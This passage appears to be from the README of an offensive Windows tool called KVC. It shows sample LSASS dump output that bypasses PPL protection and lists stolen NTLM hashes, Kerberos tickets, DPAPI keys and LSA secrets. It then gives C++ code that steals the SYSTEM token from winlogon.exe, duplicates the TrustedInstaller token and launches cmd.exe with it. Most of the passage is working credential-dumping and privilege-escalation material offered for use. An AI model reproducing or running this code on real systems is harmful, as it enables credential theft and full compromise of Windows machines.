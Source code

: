 ```mermaid
    User->>Kernel: Restore KVC protection to None
    User->>Kernel: Unload driver (atomic cleanup)
```

### Memory Dump Analysis Results

A typical LSASS dump from KVC reveals:

```
LSASS Memory Dump Analysis
├── Process: lsass.exe (PID: 756)
├── Protection: PPL-WinTcb (Bypassed)
├── Memory Regions: 1,247
├── Total Size: 156.7 MB
├── Credential Artifacts:
│   ├── NTLM Hashes: 23 accounts
│   ├── Kerberos Tickets: 7 TGTs, 15 TGSs
│   ├── DPAPI Master Keys: 12 keys
│   └── LSA Secrets: 8 entries
└── Status: Complete extraction successful
```

## 🔐 Advanced Privilege Escalation: The TrustedInstaller Chain

### Understanding TrustedInstaller Authority

The `NT SERVICE\TrustedInstaller` account represents the apex of Windows user-mode privilege:

- **Owns critical system files** and registry keys
- **Bypasses most ACL restrictions**
- **Can modify Windows Defender settings**
- **Has full access to protected registry hives**

### KVC's TrustedInstaller Acquisition Process

```cpp
bool TrustedInstallerIntegrator::ElevateToTrustedInstaller() {
    // Step 1: Enable necessary privileges
    EnablePrivilege(SE_DEBUG_NAME);
    EnablePrivilege(SE_IMPERSONATE_NAME);
    
    // Step 2: Impersonate SYSTEM via winlogon.exe
    HANDLE systemToken = GetProcessToken(FindProcess(L"winlogon.exe"));
    ImpersonateLoggedOnUser(systemToken);
    
    // Step 3: Start TrustedInstaller service (requires SYSTEM)
    SC_HANDLE scm = OpenSCManager(nullptr, nullptr, SC_MANAGER_ALL_ACCESS);
    StartService(OpenService(scm, L"TrustedInstaller", SERVICE_ALL_ACCESS));
    
    // Step 4: Duplicate TrustedInstaller primary token
    HANDLE tiProcess = OpenProcess(PROCESS_QUERY_INFORMATION, 
                                   FALSE, 
                                   FindProcess(L"TrustedInstaller.exe"));
    HANDLE tiToken;
    DuplicateTokenEx(GetProcessToken(tiProcess), 
                     MAXIMUM_ALLOWED, 
                     nullptr, 
                     SecurityImpersonation, 
                     TokenPrimary, 
                     &tiToken);
    
    // Step 5: Create privileged process with TI token
    CreateProcessWithTokenW(tiToken, 0, L"cmd.exe", ...);
```
